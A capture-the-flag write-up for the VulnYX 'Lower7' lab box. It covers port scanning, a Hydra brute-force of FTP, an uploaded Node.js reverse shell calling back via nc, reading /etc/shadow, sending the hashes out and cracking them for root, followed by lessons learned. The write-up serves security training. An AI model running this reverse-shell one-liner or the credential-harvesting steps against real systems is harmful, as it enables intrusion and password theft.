






# VulnYX - Lower7

**Difficulty = Low**  
**Category = FTP, Node.js, Linux**

## Summary
Uploaded reverseshell through an open ftp service. Escalated privileges by abusing an insecure password.

## Enumeration
Use `nmap -p- <ip-addr\>` in order to scan all ports. Then use `nmap -sVC -p 21,3000 <ip-addr\>` in order to perform a deeper scan on the target and its running services.

  Use `nc -nvv <ip-addr\>` to grab the FTP service banners, leading to a username.

## Exploitation
 Use Hydra to dictionary attack the FTP server which then gives us the password for a.clark. Use those credentials to log into the ftp service.

 
 
  Listing out directories and files produces nothing. Start a netcat listener, create a *.js* file and write a javascript reverse-shell into the file: `require('child_process').exec('nc -e /bin/sh <ip-addr\> 4444')`. Use `chmod +777` in order to make the uploaded shell executable. Navigate to *http://<ip-addr\>/script.js* in the browser. This will give you a very basic shell.
 
   
  
  Upgrade to a TTY using `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Use `cat /etc/shadow` to read the hashes of the accounts, then copy them to a file. Move the file with the harvested credentials to the */opt/site/pages* and use FTP to transfer it to your machine.

## Privilege Escalation
After transferring the hashes, use `john` to crack them:

Go back to your reverse-shell and switch users to root using the password that was just cracked, and read the flag :P

## Lessons learned

This box was exploitable due to multiple reasons with the first being a user's weak password. I was easily able to dictionary attack the password and get credentials, leading to entry through FTP. The reverse-shell I had uploaded was executed due to the configuration in the web app's *index.js* file (located in /opt/site). The app's configuration loads user-uploaded files and runs their code. 